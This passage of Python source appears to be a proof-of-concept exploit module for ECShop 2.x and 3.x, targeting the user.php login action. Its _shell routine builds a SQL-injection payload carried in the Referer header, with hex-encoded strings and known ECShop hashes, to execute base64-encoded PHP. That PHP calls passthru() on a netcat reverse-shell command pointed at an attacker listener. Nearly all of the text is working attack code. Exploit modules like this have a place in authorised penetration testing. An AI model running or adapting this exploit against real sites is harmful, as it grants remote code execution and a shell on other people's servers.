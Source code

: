 ```

        return self.parse_output(result)

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output

    def _attack(self):
        return self._verify()

    def _shell(self):
        path = "user.php"
        url = urljoin(self.url, path)
        echashs = [
            '554fcae493e564ee0dc75bdf2ebf94ca',  # ECShop 2.x hash
            '45ea207d7a2b68c49582d2d22adf953a'  # ECShop 3.x hash
        ]

        cmd = REVERSE_PAYLOAD.NC.format(get_listener_ip(), get_listener_port())
        phpcode = 'passthru("{0}");'.format(cmd)
        encoded_code = base64.b64encode(phpcode.encode())
        postdata = {
            'action': 'login',
            'vulnspy': 'eval/**/(base64_decode({0}));exit;'.format(encoded_code.decode()),
            'rnd': random_str(10)
        }

        for echash in echashs:
            payload = '{0}ads|a:3:{{s:3:"num";s:207:"*/ select 1,0x2720756e696f6e2f2a,3,4,5,6,7,8,0x7b247b2476756c6e737079275d3b6576616c2f2a2a2f286261736536345f6465636f646528275a585a686243676b5831425055315262646e5673626e4e77655630704f773d3d2729293b2f2f7d7d,0--";s:2:"id";s:9:"'"'"' union/*";s:4:"name";s:3:"ads";}}{1}'.format(echash, echash)
            headers = {"Referer": payload}
            try:
                resp = requests.post(url, data=postdata, headers=headers)
                if resp and resp.status_code == 200 and "<title>phpinfo()</title>" in resp.text:
                    break
            except ReadTimeout:
                break
            except Exception as ex:
                pass


register_poc(DemoPOC)

```
